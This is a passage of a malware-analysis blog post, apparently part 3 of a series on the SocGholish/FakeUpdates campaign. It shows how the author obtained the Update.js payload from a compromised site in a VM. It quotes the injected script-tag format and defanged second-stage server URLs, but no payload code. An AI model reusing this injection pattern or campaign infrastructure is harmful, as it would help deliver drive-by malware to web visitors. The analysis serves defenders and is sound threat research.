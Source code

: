 ```yaml
---
title: "SocGholish Series - Part 3"
date: 2023-06-19T07:20:21-05:00
draft: false
toc: true
---
```


---
{{< pswp-init >}}

This is a continuation of my personal series on SocGholish (or FakeUpdates). At the conclusion of "SocGholish Series - Part 2", I had obtained the primary, first stage JavaScript payload, titled _Updates.js_.  

In this writeup, I will execute the payload and observe the response(s) from the C2 server. 
## Update.js Payload
To begin, let me quickly review how the payload was captured. I would recommend using the first post in the series to follow along, if desired.

An interesting new wrinkle which was not present a few months ago, as far as I was aware, is the use of multiple Keitaro TDS domains as injects on a single compromised site. Here is an interesting [thread](https://infosec.exchange/@rmceoin/110449126953524134) describing their behavior. 

However, for the sake of the logical flow of the series, I will not delve into this inject type in this post, and will focus on the previously identified injection type in the format:
```String
<script async src="https://<domain>/<random_string_path>"></script>
```

### Obtaining the Payload
In a Windows VM, I navigated to a site on which a SocGholish inject had been identified, hxxps://www.hekl-metall[.]de.

The inject:
```String
https://templates.jdlaytongrademaker[.]com/AVmNsHp77tlle7eCNmuhknIw6ZI7b7iJNm+5nCMrr4ojKfvHcTz+3nku6cB0LObYbSjnxSMk
```

The second stage server responds with a large, obfuscated block of JavaScript. The JavaScript checks for various identifying aspects of the victim device, and then makes a GET request to the same second stage server:
```String
https://templates.jdlaytongrademaker[.]com/krOlC+mRxmL2kZ85pYGJKeHHwHuwiYdq/NLJcujW+m3ikYkp4JGfKf/Eh3Y=
```

From here, the process is identical to what I outlined in the [Fake Update Page](https://rerednawyerg.github.io/posts/malwareanalysis/socgholish/) section in the first post in the series, so I will not dig into it further here.

The fake update page is shown, and once the "download" button is clicked, the Update.js payload is added to my Downloads folder.
### Payload Contents
The contents of the payload are very similar to what I described in "SocGholish Series - Part 2".
